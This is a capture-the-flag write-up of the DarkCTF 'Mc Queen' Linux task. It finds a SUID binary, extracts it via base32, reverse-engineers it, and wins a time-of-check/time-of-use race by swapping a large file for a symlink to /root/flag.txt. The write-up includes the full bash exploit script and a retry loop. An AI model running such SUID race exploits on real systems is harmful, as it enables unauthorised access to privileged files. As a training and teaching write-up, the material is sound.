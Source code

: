# Mc Queen (15 solves) 489 points #

This was a linux task in DarkCTF, it was a great task and had too much fun solving it! 

![TASK](https://imgur.com/h2yyNZZ.png)


We have ssh credentials like always and every user has a separate container ( I was so glad to see that my solution to enable separate environments has really been beneficial for the community)
,however connecting to the server we find a note telling us that enumeration is the key so i started doing some basic stuffs and searched if there are any SUID binaries 
by running the following command :

```sh
find / -perm -u=s -type f 2>/dev/null
```

![TASK](https://imgur.com/g0yVsID.png)

Bingo we find the following SUID binary : ``` /usr/bin/win_or_lose ```

My next step was to extract this binary in order to reverse it, i used the following steps:

* Encoded the binary in base32: ``` base32 /usr/bin/win_or_lose ```
* Copied the result and decoded it locally ``` cat base32_res|tr -d "\n"|base32 -d > bin ```

Now after statically analyzing the binary with Ghidra , we can deduct the following:

![TASK](https://imgur.com/DZQEcHV.png)

The binary is used to read the content of a file we specify in the arguments, but it checks firstly the owner of the file and if it's root it exits and never show its content.

I tried to use a symlink that points to the flag.txt file but in vain, stat function always check the properties of the real file and follow symlinks. I got stuck here for some time trying to figure out how we can bypass this check and after a little bit of concentration
I observed that the binary is checking for the owner before actually opening the file, so if we give it first a big file it will take a non negligeable time to check its owner and then in this short amount of time we can replace
that big file with a symlink to the flag! I think you guessed it , it's time for TOCTU (time of check - time of use) exploitation , let's try to win the race.

I wrote the following script to exploit this weakness:

```sh
#!/bin/bash
perl -e 'print "a"x20x1000x1000' >bigfile
chmod 777 bigfile
/usr/bin/win_or_lose bigfile &
ln -sf /root/flag.txt bigfile
```
I wrote it in the server using some cat tricks:

```sh
cat >exp.sh <<EOF
EXPLOIT HERE
#Write EOF to close stdout
```

And finally i run my exploit in an infinite loop:

```sh
while true;do ./exp.sh|grep -i dark;rm bigfile;done
```

Et Voilaa

![TASK](https://imgur.com/hRIMxmc.png)

If you have any questions you can ask me on twitter @belkahlaahmed1 , for more cybersecurity related articles you can visit my personal **[blog](https://ahmed-belkahla.me)** 
